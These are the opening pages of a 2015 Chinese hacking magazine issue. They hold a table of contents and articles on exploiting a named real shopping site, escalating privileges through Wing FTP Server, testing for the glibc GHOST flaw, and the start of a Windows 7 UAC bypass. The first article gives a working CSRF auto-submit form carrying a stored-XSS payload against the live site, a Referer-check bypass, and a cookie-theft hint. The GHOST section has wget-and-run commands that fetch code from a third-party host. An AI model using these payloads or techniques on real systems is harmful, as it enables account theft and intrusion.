# 黑客防线2015年全

---

# 黑客防线

总第169期  
2015

网站全新改版，欢迎访问：http://www.hacker.com.cn

2015年 第1期 黑客防线



- Android 移动智能终端安全视频通信
- Windows7 默认环境绕过 UAC
- 渗透提权别忘了 Wing FTP Server
- Android 移动智能终端安全语音通信
- 再谈对抗 360 安全卫士
- Linux glibc 幽灵漏洞测试

## 《黑客防线》1期文章目录

总第169期 2015年

#### 漏洞攻防

- 双管齐下窃取曲奇客购物网站的用户账户（宗旋）........................3
- 渗透提权别忘了 Wing FTP Server（爱无言）..........................5
- Linux glibc 幽灵漏洞测试（simeon）................................8

#### 编程解析

- Windows7 默认环境绕过 UAC（大象装冰箱）.........................12
- 再谈对抗 360 安全卫士（弹相辰）....................................14

#### 密界寻踪

- 陌路寻踪：OD 调试破解全接触（贾志明）............................25

#### Android 远程监控技术

- Android 移动智能终端安全视频通信（袁琦 张帆 甘加升）..........39
- Android 移动智能终端安全语音通信（甘加升 张帆 袁琦）..........46
- 2015年第1期杂志特约选题征稿......................................53
- 2015年征稿启示....................................................56

### 双管齐下窃取曲奇客购物网站的用户账户

文/图 宗旋

曲奇客（www.quqike.com），是国内首家针对高校学生的导购平台，此网站账户与教育网高清云窗视频系统是同步的，可以直接登录。此网站是一个基于 ASP 脚本编写的导购以及积分兑换网站平台。曾经我发现此网站存在可以直接通过元素修改进行无限制礼品兑换漏洞，此次再次造访此网站进行友好测试，发现不少漏洞和代码编写问题，这些问题在我最近的渗透中多次发现，创新工场下的购物网站也有类似问题，感觉比较有意义，特此写成文字，进行分析与总结。

此网站从外观看相比于其他购物网站并没有特别的差异，映入眼帘的即是商品推荐。我是一个来找茬的，基本上不会欣赏商品，而是直接注册登录，登录处就有 bug，对于输入的密码直接显示正确与否，可以爆破利用，下一行的验证码名存实亡，这里不是重点，我觉得爆破是运气加耐力，所以不算漏洞。登录进去，直接找到个人资料处，只有此处可以填写额外代码，经过测试发现收货地址处存在存储型 XSS 漏洞，如图 1，在街道地址处直接填写 xss 测试代码，点击保存，cookie 成功弹出。

```html
<script>alert(document.cookie)</script>
```



图 1

弹出 cookie 窗口可以看到字段 quqiPwd，此字符串经过 MD5 解密，发现正是密码，cookie 还存在有账户名 quqiUser，即邮箱地址。此时，敏锐的嗅觉让我感觉到此处漏洞已经形成。



图 2

很多 web 开发者认为收货地址是手动填写，忽略了对 xss 的过滤。漏洞既然形成，那么接下来需要加以利用，否则这个漏洞就是 NULL，无任何用处。很明显，只有 CSRF 可以达到写入 xss 代码的目的。收货地址处，数据提交没有任何额外验证数据，我直接写如下 html 代码（网页名称 test.html），进行数据的 POST 提交。

```html
<form action="http://www.quqike.com/user_center_info.asp" method="POST">
  <input type="text" name="typ" value="3" />
  <input type="text" name="a_id" value="" />
  <input type="text" name="a_sname" value="黎明" />
  <input type="text" name="s_province" value="北京市" />
  <input type="text" name="s_city" value="北京市" />
  <input type="text" name="s_county" value="东城区" />
  <input type="text" name="a_address" value="<script>alert(document.cookie)</script>" />
  <input type="text" name="a_zip" value="111111" />
  <input type="text" name="a_phone" value="15012342345" />
  <input type="text" name="a_default" value="1" />
</form>
<script>document.forms[0].submit();</script>
```

图 3

触发网页提交失败，看来开发者在 CSRF 上还是花了功夫的，我并没有气馁，继续测试，利用 BurpSuite 先从 HTTP 参数 Origin 开始，发现无影响；Referer 有影响，无法成功提交。基本上算是失败了，用户的 Referer 无法修改。脑子一定要转得快，这里也将是我认为最有意义的地方，发现网站开发人员并没有验证完整的 Referer，而是只验证了提交页面。

- 正确的 Referer: http://www.quqike.com/user_center.asp
- 错误的 Referer: http://localhost/test.html
- 正确的 Referer: http://localhost/user_center.asp

这里也应了一个词语，坚持不懈。既然这样就方便了很多，将 test.html 直接改成 user_center.asp 运行在 IIS+ASP 环境下，显示成功。但是 alert(document.cookie) 被过滤掉了。很奇怪，手动添加不会被过滤，表单提交就被过滤掉。将代码写成 `<script>a=1;alert(document.cookie);</script>` 即可成功，弹出 cookie。另外，将代码写成 `<script>document.write(document.cookie);</script>`，看到如下图 4 效果，将 SRC 引入即可将 cookie 偷走。



图 4

#### 漏洞修补办法

- 验证完整的 Referer，不能局部认证。
- 需要在输入框中过滤 js 代码，不能只进行简单过滤。
- 在数据提交的时候要多判断几个 HTTP 参数，保证万无一失。

### 渗透提权别忘了 Wing FTP Server

文/图 爱无言

“提权”这个事情一直是渗透测试中的重点关注对象，从原理上进行区分的话，“提权”工作主要借助于操作系统本身的安全漏洞和第三方软件的安全漏洞，这其中第三方软件常常涉及到杀毒、防火墙、输入法、服务器类软件。谈到服务器类软件，在以往曝光的安全漏洞中，Serv-U 的提权漏洞可谓人人皆知，不知道多少服务器都是被这个提权漏洞沦陷的。

Serv-U 是一款 FTP 服务器软件，同样我们今天接触到的这款名为 “Wing FTP Server” 的软件也是一款 FTP 服务器软件。

“Wing FTP Server” 在国内的名气也许并不高，但是在国外的服务器上会经常遇见，它支持多种模式下的 FTP 服务：传统的 21 端口 FTP 服务、80 端口的 Web 式 FTP 服务，还有 FTPS、FTPS、HTTPS、SSH 等。如此丰富的功能，当然深受用户的喜爱。“Wing FTP Server” 的安装十分简单，安装完后提供了 Web 式的管理界面，如图 1 所示。



图 1

初次登录“Wing FTP Server”的管理界面，它会要求你设置 Domain（域）、为新域建立 FTP 用户、设置用户访问目录。简单的设置完成后，你就可以使用了。这里我们新建了一个名为“test”的域，新建了一个名为“test”密码为“123456”的用户。

在安装“Wing FTP Server”过程中，我想起来它默认是将自己注册为一个系统服务，也就是说“Wing FTP Server”进程具有 SYSTEM 权限。为什么想到这个？因为我在一次渗透测试中需要进行提权，而可参考的信息中只有“Wing FTP Server”的管理员密码账号。这就使得我不得不思考，能不能借助“Wing FTP Server”进行一下提权。

遍历了一下“Wing FTP Server”管理界面中的所有功能，我们的目光集中了一个名为“事件管理器”的功能上，如图 2 所示。



图 2

从图 2 中我们看到在“事件”一栏中有很多以“On”开头的函数名，这使得我们想到网页开发中的触发函数，也就是当某种动作发生时，就会执行某个“On”函数。以此类推，“OnUserLoggedIn”函数就是当用户成功登录系统后所要执行的函数，那么它可以执行哪些具体动作呢？



图 3

双击 “OnUserLoggedIn” 会出现图 3 的界面，在这个界面中我们发现 “Wing FTP Server” 事件处理函数允许我们干很多事情，例如执行程序、写入日志、发送邮件、执行 Lua 脚本。如此丰富的功能，其目的就是为了方便 FTP 管理人员，假设某个用户发送了邮件，借助事件处理函数，可以设定一个“发送邮件”，提醒管理员某个用户的邮件成功发送了。这是人性化软件设计的体现，但是这也意味着安全漏洞的发生。既然 “Wing FTP Server” 事件处理函数允许我们在事件发生后执行程序，而 “Wing FTP Server” 的进程又是以 SYSTEM 权限运行，那不就可以直接借此机会提权了吗？废话不多，直接测试效果看看。这里设定用户成功登录系统后，借助 “OnUserLoggedIn” 函数执行系统中的记事本程序即 “NOTEPAD.EXE”。现在利用一个已知的 FTP 用户登录系统，我们远程查看服务器上进程会发现令人惊喜的事情，如图 4 所示。



图 4

是不是很酷！“NOTEPAD.EXE”进程不但被成功执行，而且就是“SYSTEM”权限，提权成功！

在兴奋的同时，我还想告诉大家的是，“Wing FTP Server”支持一种叫做“Lua”的脚本语言，这是作者设计的一种脚本化语言，利用它可以干很多事情，例如执行命令、写入木马病毒程序或者远程下载等等，这下我想渗透工作会更爽了，不是吗？

最后，本文旨在讨论安全技术，请不要使用本文技术进行任何违法行为，作者和杂志概不负责。

### Linux glibc 幽灵漏洞测试

文/图 simeon

2015 年 1 月 28 日，互联网上爆出 Linux glibc 幽灵漏洞（glibc gethostbyname buffer overflow，http://seclists.org/oss-sec/2015/q1/274），也有人将其称之为“20150127 GHOST gethostbyname() heap overflow in glibc”，在 CVE 上的漏洞编号是 CVE-2015-0235。攻击者可利用此漏洞实施远程攻击，并完全控制目标系统。

glibc 是 GNU 发布的 libc 库，即 C 运行库。glibc 是 Linux 系统中最底层的 API，几乎其它任何运行库都会依赖于 glibc。glibc 除了封装 Linux 操作系统所提供的系统服务外，它本身也提供了许多其它一些必要功能服务的实现。glibc 囊括了几乎所有的 UNIX 通行标准。

国外安全研究人员发现，glibc 的 __nss_hostname_digits_dots() 函数有缓冲区溢出漏洞。这一漏洞既可以本地利用，也可以远程利用。研究人员对漏洞进行了测试验证：向目标邮件服务器发送特别构造的邮件，从而获得了远程登录 Linux 系统的 shell 脚本。通过这种方式可以绕过 32 位和 64 位系统上的所有现存保护机制（比如 ASLR、PIE 和 NX）。

受 glibc-2.2 影响的 GNU C 函数最早版本是在 2000 年 11 月发布的。这一漏洞曾在 2013 年 5 月被修补（在 glibc-2.17 和 glibc-2.18 版本之间）。但由于当时并没有被认定为安全威胁，包括 Debian 7、Red Hat Enterprise Linux 6 & 7、CentOS 5/6/7 和 Ubuntu 12.04 在内的多数知名 Linux 版本在长达一年半的时间都没有修补幽灵漏洞，经测试以下版本均存在漏洞：

- RHEL (Red Hat Enterprise Linux) version 5.x, 6.x, 7.x
- CentOS Linux 5.x, 6.x & 7.x
- Ubuntu Linux version 10.04, 12.04 LTS
- Debian Linux version 7.x
- Linux Mint version 13.0
- Fedora Linux version 19 y anteriores
- SUSE Linux Enterprise 11 y anteriores
- Arch Linux glibc version <= 2.18-1

Linux glibc 幽灵漏洞最容易的攻击入口是邮件服务器和存在 SSRF（Server-side Request Forgery）漏洞的 Web 接口。值得庆幸的是，此漏洞目前还没有公开通用的攻击代码，这也给了服务器管理员们及时安装补丁的宝贵时间。

#### Linux glibc 幽灵漏洞测试方法

##### 1. Ubuntu & Debian 检查

```bash
ldd --version
```

1. Ubuntu 受影响版本（https://launchpad.net/ubuntu/+source/eglibc）：
   - Ubuntu 12.04 LTS: 2.15-0ubuntu10.10
   - Ubuntu 10.04 LTS: 2.11.1-0ubuntu7.20

2. Debian glibc 受影响版本（https://security-tracker.debian.org/tracker/CVE-2015-0235）：
   - Debian 7 LTS: 2.13-38+deb7u7 等
   - eglibc (PTS) squeeze 2.11.3-4 vulnerable
   - eglibc wheezy 2.13-38+deb7u6 vulnerable

Debian glibc 已经修复版本：
- squeeze (lts) 2.11.3-4+deb6u4
- wheezy (security) 2.13-38+deb7u7

##### 2. CentOS & RHEL 检查

在 CentOS 上执行 `rpm -q glibc` 命令，如图 1 所示，显示 glibc 的版本信息为 glibc-2.5-118.el5_10.2。



图1 centos glibc 版本信息

受影响版本：
- CentOS 5: glibc-2.5-118.el5_10.2
- CentOS 6: glibc-2.12-1.149.el6_6.5
- CentOS 7: glibc-2.17-55.el7_0.5
- RHEL 5: glibc-2.5-123.el5_11.1
- RHEL 6: glibc-2.12-1.149.el6_6.5
- RHEL 7: glibc-2.17-55.el7_0.5

查看 RHEL 各个版本更多有关该漏洞的信息请访问：  
https://security-tracker.debian.org/tracker/CVE-2015-0235

##### 3. POC 验证测试

把下面的代码保存为 ghost.c，或者 `wget http://www.antian365.com/lab/linux0day/ghost.c`。

```c
/*
 * GHOST vulnerability check
 * http://www.antian365.com/lab/linux0day/ghost.c
 * Usage: gcc ghost.c -o ghost && ./ghost
 */

#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#define CANARY "in_the_coal_mine"

struct {
    char buffer[1024];
    char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };

int main(void) {
    struct hostent resbuf;
    struct hostent *result;
    int herrno;
    int retval;

    /*** strlen(name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
    size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
    char name[sizeof(temp.buffer)];
    memset(name, '\0', len);
    name[len] = '\0';

    retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);

    if (strcmp(temp.canary, CANARY) != 0) {
        puts("vulnerable");
        exit(EXIT_SUCCESS);
    }
    if (retval == ERANGE) {
        puts("not vulnerable");
        exit(EXIT_SUCCESS);
    }
    puts("should not happen");
    exit(EXIT_FAILURE);
}
```

直接编译并执行：`gcc ghost.c -o ghost && ./ghost`，如果存在漏洞则会显示 “vulnerable”，如图 2 所示。



图 2 poc 测试是否存在漏洞

也可以执行下面的命令，以检测是否存在漏洞。

方法一：

```bash
rpm -q glibc
cat /etc/issue
wget http://www.antian365.com/lab/linux0day/ghost.c
gcc ghost.c -o ghost && ./ghost
```

方法二：直接显示 glibc 的版本信息。

```bash
wget -O GHOST-test.sh http://www.antian365.com/lab/linux0day/GHOST-test.sh.txt
bash GHOST-test.sh
```

显示结果如下：

```text
Vulnerable glibc version <= 2.17-54
Vulnerable glibc version <= 2.5-122
Vulnerable glibc version <= 2.12-1.148
Detected glibc version 2.5 revision 118
This system is vulnerable to CVE-2015-0235.
<https://access.redhat.com/security/cve/CVE-2015-0235>
Please refer to <https://access.redhat.com/articles/1332213> for remediation steps
```

#### 修复方法

- **1. Ubuntu/Debian**

  在 Ubuntu/Debian 上执行以下命令进行修复，修复后需要重启。

```bash
apt-get update && apt-get -y install libc6
```

- **2. Centos**

  在 Centos 上执行“yum update glibc”后会有一个确认，输入“y”，大概会下载 6 个安装包，安装完成后需要重启计算机。

（完）

## Windows7 默认环境绕过 UAC

文/图 大象装冰箱

在 Win7 默认配置环境下，UAC 处于第二级，如图 1 所示，在此级别下，用户对一个程序点击鼠标右键“以管理员身份运行”，是会触发 UAC 拦截弹窗的，也就是需要经过用户的确认才能以完整特权的管理员权限运行。



图 1

不过，我们用过一段时间后就会发现，用户打开一些操作系统自身的程序时，也是完整特权的，但它们启动的时候并没有触发 UAC 弹窗！最典型的就是任务管理器 taskmgr.exe，我们即使对任务管理器的 taskmgr.exe 文件点击鼠标右键“以管理员身份运行”也不会触发 UAC 弹窗。

